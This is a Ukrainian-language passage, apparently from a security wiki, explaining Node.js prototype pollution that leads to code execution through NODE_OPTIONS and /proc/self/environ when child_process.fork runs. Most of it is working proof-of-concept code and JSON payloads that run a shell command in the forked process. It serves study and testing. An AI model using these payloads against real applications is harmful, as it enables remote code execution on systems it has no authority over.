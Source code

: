 {% hint style="warning" %}
Зверніть увагу, що через те, як працює функція **`normalizeSpawnArguments`** з бібліотеки **`child_process`** в node, коли щось викликається для **встановлення нової змінної середовища** для процесу, вам просто потрібно **забруднити що-небудь**.\
Наприклад, якщо ви зробите `__proto__.avar="valuevar"`, процес буде запущено зі змінною, названою `avar`, зі значенням `valuevar`.

Однак, щоб **змінна середовища була першою**, вам потрібно **забруднити** **атрибут `.env`**, і (тільки в деяких методах) ця змінна буде **першою** (дозволяючи атаку).

Ось чому **`NODE_OPTIONS`** **не всередині `.env`** в наступній атаці.
{% endhint %}

{% code overflow="wrap" %}
```javascript
const { execSync, fork } = require('child_process');

// Manual Pollution
b = {}
b.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//"}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"

// Trigger gadget
var proc = fork('./a_file.js');
// This should create the file /tmp/pp2rec


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce\\\").toString())//"}}}')

clone(USERINPUT);

var proc = fork('a_file.js');
// This should create the file /tmp/pp2rec
```
{% endcode %}

### Отруєння `constructor.prototype`
```javascript
const { execSync, fork } = require('child_process');

// Manual Pollution
b = {}
b.constructor.prototype.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//"}
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ"

proc = fork('a_file.js');
// This should create the file /tmp/pp2rec2


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce2\\\").toString())//"}}}}')

clone(USERINPUT);

var proc = fork('a_file.js');
// This should create the file /tmp/pp2rec2
```